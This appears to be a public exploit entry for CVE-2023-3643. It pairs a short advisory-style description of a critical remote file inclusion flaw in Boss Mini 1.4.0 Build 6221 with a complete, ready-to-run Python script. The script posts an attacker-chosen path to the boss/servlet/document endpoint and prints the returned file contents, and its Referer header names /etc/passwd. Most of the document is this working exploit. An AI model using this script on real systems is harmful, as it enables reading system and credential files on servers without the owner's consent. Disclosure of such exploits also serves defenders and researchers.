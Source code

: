 # Description

A vulnerability was found in Boss Mini 1.4.0 Build 6221. It has been classified as critical. This affects an unknown part of the file boss/servlet/document. The manipulation of the argument path leads to file inclusion. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-233889 was assigned to this vulnerability. 

# Exploit

```
# Exploit Title: Boss Mini 1.4.0 (Build 6221) - Local File Inclusion (LFI)
# Date: 07/12/2023
# Exploit Author: [nltt0] (https://github.com/nltt-br))
# CVE: CVE-2023-3643


'''
_____       _                              _____ 
/  __ \     | |                            /  ___|
| /  \/ __ _| | __ _ _ __   __ _  ___  ___ \ `--. 
| |    / _` | |/ _` | '_ \ / _` |/ _ \/ __| `--. \
| \__/\ (_| | | (_| | | | | (_| | (_) \__ \/\__/ /
\____/\__,_|_|\__,_|_| |_|\__, |\___/|___/\____/ 
                            __/ |                 
                          |___/                  

'''

from requests import post 
from urllib.parse import quote
from argparse import ArgumentParser

try:
    parser = ArgumentParser(description='Local file inclusion [Boss Mini]')
    parser.add_argument('--domain', required=True, help='Application domain')
    parser.add_argument('--file', required=True, help='Local file')

    args = parser.parse_args()
    host = args.domain
    file = args.file
    url = '{}/boss/servlet/document'.format(host)
    file2 = quote(file, safe='')

    headers = {
        'Host': host,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange',
        'Referer': 'https://{}/boss/app/report/popup.html?/etc/passwd'.format(host)
    }


    data = {
        'path': file2
    }

    try:
        req = post(url, headers=headers, data=data, verify=False)
        if req.status_code == 200:
            print(req.text)

    except Exception as e:
        print('Error in {}'.format(e))   
        

except Exception as e:
    print('Error in {}'.format(e))

```

